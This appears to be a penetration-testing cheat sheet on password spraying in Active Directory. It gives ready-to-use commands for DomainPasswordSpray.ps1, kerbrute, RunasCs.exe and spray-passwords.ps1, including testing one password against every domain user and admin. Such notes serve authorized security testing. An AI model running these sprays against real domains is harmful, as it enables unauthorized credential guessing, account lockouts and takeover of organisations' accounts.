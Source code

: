 ```yaml
---
legal-banner: true
---
```


### **USING DOMAINPASSWORDSPRAY.PS1**

1.  Import the DomainPasswordSpray module.  
    `Import-Module .\DomainPasswordSpray.ps1`
2.  Run the Invoke-DomainPasswordSpray command with the desired password and output file parameters.  
    `Invoke-DomainPasswordSpray -Password [PASSWORD] -OutFile spray_success -ErrorAction SilentlyContinue`

### **USING KERBRUTE FOR PASSWORD SPRAYING**

1.  Execute the password spray attack:  
    `kerbrute passwordspray -d example.local --dc [IP_ADDRESS] valid_users.txt [PASSWORD]`

### **USING RUNASCS.EXE**

1.  RunasCs.exe can be used to check credentials locally without access to SMB, LDAP, WinRM, Kerberos, or any other authenticated Windows services.  
    `.\RunasCs.exe Administrator notthepassword "cmd /c whoami"`
    
2.  Use spray-passwords.ps1 script: https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
    
    ```powershell
    # test password against all users in the AD, including admins.
    PS> .\spray-passwords.ps1 -Admin -Pass IamUser01
    PS> .\spray-passwords.ps1 -Admin -Pass IamUser02
    ```